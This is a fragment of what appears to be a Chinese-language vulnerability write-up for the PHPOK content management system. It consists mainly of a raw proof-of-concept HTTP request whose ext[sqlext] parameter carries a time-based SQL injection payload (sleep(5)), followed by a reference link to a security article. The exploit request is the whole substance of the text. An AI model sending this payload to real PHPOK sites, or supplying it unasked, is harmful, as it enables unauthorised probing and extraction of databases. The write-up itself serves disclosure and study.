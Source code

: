 POC：

    GET /api.php?c=index&f=phpok&token=6318fdtC3WRpOzYNzKVNw78PFa9OhFea5pp3/uZ4U3T67a/F47WhJ0lr856V7yomOcG0u8/UJpIwKKOwJAKspTSWN+5ljVNWR5978g7HHoG14M&ext[sqlext]=sleep(5)%23&ext[site]=1 HTTP/1.1
    Host: 0-sec.org
    Pragma: no-cache
    Cache-Control: no-cache
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; U; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.86 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
    Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4
    Connection: close

四、参考链接
------------

> <https://xz.aliyun.com/t/6830>
